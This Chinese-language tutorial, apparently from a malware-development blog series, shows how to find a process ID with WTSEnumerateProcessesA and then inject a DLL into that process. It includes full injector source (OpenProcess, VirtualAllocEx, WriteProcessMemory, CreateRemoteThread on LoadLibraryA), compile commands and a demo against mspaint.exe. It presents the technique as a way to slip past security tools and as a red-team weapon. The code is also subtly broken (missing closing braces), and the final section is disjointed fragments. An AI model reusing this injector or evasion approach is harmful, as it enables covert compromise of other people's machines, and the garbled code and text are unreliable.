







\newpage
\subsection{恶意软件开发技巧：通过 WTSEnumerateProcesses 查找 PID（简单的 C++ 示例）}

今天，我只是想把我的研究集中在另一个恶意软件开发技巧上。

{width="80%"}

这一章讲的是枚举进程，并通过 `WTSEnumerateProcesses` 查找 PID。

恶意软件也可以用它来做 AV 规避。

`WTSEnumerateProcessesA` 是一个 Windows API 函数，用于获取指定终端服务器上活动进程的信息：

```cpp
BOOL WTSEnumerateProcessesA(
  WTS_CURRENT_SERVER_HANDLE hServer,
  DWORD  Reserved,
  DWORD  Version,
  PWTS_PROCESS_INFOA  *ppProcessInfo,
  DWORD  *pdwCount
);
```

`WTSEnumerateProcessesA` 主要用于枚举终端服务器上运行的进程，对诊断和故障排查很有用。

### 实战示例

WTS API 函数属于 `wtsapi32.dll`，所以我们需要链接该 DLL。

```cpp
#pragma comment(lib, "wtsapi32.lib")
```

用于链接该库。

然后只需创建一个枚举进程的函数：

```cpp
int findMyProc(const char * procname) {
  int pid = 0;
  WTS_PROCESS_INFOA * pi;

  DWORD level = 1; // we want WTSEnumerateProcesses to return WTS_PROCESS_INFO_EX
  DWORD count = 0;

  if (!WTSEnumerateProcessesA(WTS_CURRENT_SERVER_HANDLE, 0, level, &pi, &count))
  return 0;

  for (int i = 0 ; i < count ; i++ ) {
  if (lstrcmpiA(procname, pi[i].pProcessName) == 0) {
  pid = pi[i].ProcessId;
  break;
  }
  }

  WTSFreeMemory(pi);
  return pid;

```

如你所见，逻辑相当简单，只是比较进程名并获取 PID。

完整源代码看起来是这样的（`hack.c`）：

```cpp
/*
 * process find via WTSEnumerateProcessesA logic
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2023/07/07/malware-tricks-34.html
*/
#include <windows.h>
#include <stdio.h>
#include <wtsapi32.h>
#pragma comment(lib, "wtsapi32.lib")

int findMyProc(const char * procname) {
  int pid = 0;
  WTS_PROCESS_INFOA * pi;

  DWORD level = 1; // we want WTSEnumerateProcesses to return WTS_PROCESS_INFO_EX
  DWORD count = 0;

  if (!WTSEnumerateProcessesA(WTS_CURRENT_SERVER_HANDLE, 0, level, &pi, &count))
  return 0;

  for (int i = 0 ; i < count ; i++ ) {
  if (lstrcmpiA(procname, pi[i].pProcessName) == 0) {
  pid = pi[i].ProcessId;
  break;
  }
  }

  WTSFreeMemory(pi);
  return pid;

int main(int argc, char* argv[]) {
  int pid = findMyProc(argv[1]);
  if (pid > 0) {
  printf("pid = %d\n", pid);
  }
  return 0;

```

请记住，这个函数可能无法获取某些类型进程的进程标识符，例如系统进程，或者受某些类型安全软件保护的进程。

另外，`WTSEnumerateProcesses` 要求启用 `SeTcbPrivilege`，但这对管理员来说通常是启用的，不过我没有验证这一点。

### 演示

好，我们来看看这个技巧的实际效果。

编译它（`hack.c`）：

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lwtsapi32
```

{width="80%"}

如你所见，构建这个程序时需要链接 `wtsapi32.lib`。

我使用的是基于 GCC 的编译器（比如 MinGW），所以我可以在命令中加入 `-lwtsapi32` 来实现。

```powershell
.\hack.exe <process>
```

{width="80%"}

{width="80%"}

{width="80%"}

正如我之前写过的，理论上用户必须拥有 Query Information 权限。

如果调用进程运行在用户会话中，那么 `WTSEnumerateProcesses` 函数只获取调用进程所在会话的进程信息。

在我看来，如果你的恶意软件或服务以 Local System 身份运行，你就有足够的权限。

另外，也许这个技巧可以用来绕过一些网络安全解决方案，因为许多系统只检测那些众所周知的函数，比如 `CreateToolhelp32Snapshot`、`Process32First`、`Process32Next`。

### 实战示例 2：查找并注入

我们再来一个带恶意逻辑的例子。按名称查找进程 ID 并向它注入 DLL。

源代码与我之前的文章或这篇类似。唯一的区别是 `findMyProc` 函数的逻辑（`hack2.c`）：

```cpp
/*
 * hack2.cpp - find process ID
 * by WTSEnumerateProcessesA and
 * DLL inject. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/07/07/malware-tricks-34.html
*/
#include <windows.h>
#include <stdio.h>
#include <wtsapi32.h>
#pragma comment(lib, "wtsapi32.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int findMyProc(const char * procname) {
  int pid = 0;
  WTS_PROCESS_INFOA * pi;

  DWORD level = 1; // we want WTSEnumerateProcesses to return WTS_PROCESS_INFO_EX
  DWORD count = 0;

  if (!WTSEnumerateProcessesA(WTS_CURRENT_SERVER_HANDLE, 0, level, &pi, &count))
  return 0;

  for (int i = 0 ; i < count ; i++ ) {
  if (lstrcmpiA(procname, pi[i].pProcessName) == 0) {
  pid = pi[i].ProcessId;
  break;
  }
  }

  WTSFreeMemory(pi);
  return pid;

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);

  HMODULE hKernel32 = GetModuleHandle("kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
  if (ph == NULL) {
  printf("OpenProcess failed! exiting...\n");
  return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, 
  NULL);
  CloseHandle(ph);

  return 0;

```

### 「恶意软件」演示

好，我们来演示一下我们的注入。

编译它：

```bash
x86_64-w64-mingw32-g++ -O2 hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwtsapi32
```

{width="80%"}

然后运行，对 `mspaint.exe` 执行查找和注入：

```powershell
.\hack2.exe mspaint.exe
```

{width="80%"}

我们可以看到，正如预期的那样，我们的消息框被注入到了 PID = 3048 的 `mspaint.exe` 中。完美！=..=

这个技巧被伊朗的 CopyKittens 网络间谍组织使用。

我希望这篇文章能让蓝队意识到这项有趣的恶意软件开发技术，同时为红队的武器库增添一件武器。

这是一种常见技术。

### WTSEnumerateProcessesA Win API

在代码片段中：

此外，某些类型的安全软件可能会完全阻止对该函数的调用。

如果你运行在权限受限的环境中，情况也是如此。

然后，直接在受害机器上运行它（我的例子是 Windows 10 22H2 x64）：

我们可以看到，正如预期的那样它完美工作了 :) =..=

另外，调用进程必须拥有 `SE_TCB_NAME` 权限。

出于同样的原因，这对许多恶意软件分析师来说也很困难。
